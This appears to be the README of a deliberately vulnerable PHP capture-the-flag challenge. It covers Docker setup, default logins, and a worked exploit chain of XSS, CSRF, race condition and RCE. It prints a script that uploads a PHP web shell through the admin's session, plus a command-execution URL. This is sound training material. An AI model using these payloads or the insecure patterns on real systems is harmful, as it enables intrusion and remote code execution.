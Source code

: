 # ShellRace CTF Challenge

This is a vulnerable PHP application designed for Capture The Flag (CTF) competitions. It contains several deliberately implemented vulnerabilities that form an exploit chain:

1. XSS (Cross-Site Scripting)
2. CSRF (Cross-Site Request Forgery)
3. Race Condition
4. RCE (Remote Code Execution)

## Quick Deployment with Docker

The simplest way to deploy this challenge is using Docker:

```bash
./docker-setup.sh
```

or manually:

```bash
# Create required directories
mkdir -p uploads admin-bot/logs
chmod 777 uploads admin-bot/logs

# Launch with Docker Compose
docker-compose up -d
```

This will:
1. Start a PHP web server containing the vulnerable application
2. Launch the admin bot that periodically visits the pages

## Login Credentials

- Regular user: `user` / `password123`
- Admin: `admin` / `adminpass`

## Vulnerability Chain

### 1. XSS Vulnerability

The comments section in the dashboard doesn't sanitize user input, making it vulnerable to XSS attacks.

Example payload:
```html
<script>alert('XSS vulnerability!');</script>
```

### 2. CSRF via XSS

Since the admin bot visits the dashboard and views all comments, an attacker can inject JavaScript that performs a CSRF attack to upload a malicious PHP shell.

Example payload:
```html
<script>
// Create a hidden form to upload a PHP shell
var form = document.createElement('form');
form.method = 'POST';
form.action = 'admin.php';
form.enctype = 'multipart/form-data';
form.style.display = 'none';

// Create the file data
var fileData = '<?php system($_GET["cmd"]); ?>';
var blob = new Blob([fileData], {type: 'application/x-php'});
var formData = new FormData();
formData.append('file', blob, 'shell.php');

// Submit the form via fetch API
fetch('admin.php', {
  method: 'POST',
  body: formData,
  credentials: 'include'
}).then(response => {
  console.log('Shell uploaded successfully!');
});

</script>
```

### 3. Race Condition

The uploaded shell is automatically deleted after 10 seconds, so there's a small window to exploit it.

### 4. Remote Code Execution (RCE)

Once the shell is uploaded, the attacker can execute system commands by visiting:
```
http://localhost/uploads/shell.php?cmd=id
```

## The HTTP-only Cookie Protection

The session cookie is set with the HTTP-only flag, preventing JavaScript from accessing it directly. However, the CSRF attack leverages the admin's active session, bypassing this protection.

## Docker Management

To check logs for troubleshooting:
```bash
# Web server logs
docker-compose logs web

# Admin bot logs
docker-compose logs admin-bot
```

To stop the challenge:
```bash
docker-compose down
```

## Legal Disclaimer

This application is intended for educational purposes and authorized security testing only. Do not deploy it on public-facing servers or use it against systems without proper authorization. 